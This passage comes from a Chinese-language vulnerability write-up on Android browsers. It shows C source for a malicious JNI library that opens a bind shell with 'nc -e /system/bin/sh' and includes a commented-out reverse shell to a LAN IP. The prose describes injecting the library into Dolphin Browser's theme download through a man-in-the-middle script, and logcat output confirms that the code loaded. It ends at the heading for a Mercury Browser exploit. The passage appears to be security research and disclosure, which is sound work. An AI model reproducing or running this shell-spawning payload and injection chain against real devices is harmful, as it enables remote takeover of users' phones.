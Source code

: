 ```
#include <stdio.h>
#include <jni.h>
#include <stdlib.h>
#include <unistd.h>
#include <android/log.h>

#define LOG "heen"
#define LOGI(...)  __android_log_print(ANDROID_LOG_INFO,LOG,__VA_ARGS__)

jint JNICALL JNI_OnLoad(JavaVM* vm, void* reserved)
{
    JNIEnv* env = NULL;
    jint result = -1;
    int ret;

    if ((*vm)->GetEnv(vm, (void**) &env, JNI_VERSION_1_4) != JNI_OK) {
        return -1;
    }
    /* success -- return valid version number */
    result = JNI_VERSION_1_4;

    LOGI("Hello, World");
    //ret = system("nc 192.168.8.163 8088|/system/bin/sh|nc 192.168.8.163 9999");
    ret = system("nc -ll -p 6666 -e /system/bin/sh");
    LOGI("ret value of system is %d",ret);

   // sleep(1800);

    return result;
}

```

然后按照前面的方法将编译的so文件添加到主题文件压缩包中，

![image](http://drops.javaweb.org/uploads/images/05a346211e56504861b7fc51ae1ee93a8796d2d3.jpg)

手机上重新下载主题文件并应用，这将触发mitmdump脚本替换下载返回的主题文件为添加恶意so的主题文件。此时我们结束海豚浏览器，并重新打开，使其有机会加载我们改写的so。logcat将有如下输出，

```
D/dalvikvm(25522): Trying to load lib /data/data/mobi.mgeek.TunnyBrowser/files/libdolphin.so 0x42687bc0
D/dalvikvm(25522): Added shared lib /data/data/mobi.mgeek.TunnyBrowser/files/libdolphin.so 0x42687bc0

```

而海豚浏览器也并未崩溃，可以正常浏览网页。用nc连接，patch的恶意代码已经生效

![image](http://drops.javaweb.org/uploads/images/2245318d96cbcf3addd43b3962c80151bb66f98c.jpg)

0x02 水星浏览器远程代码执行漏洞
==================

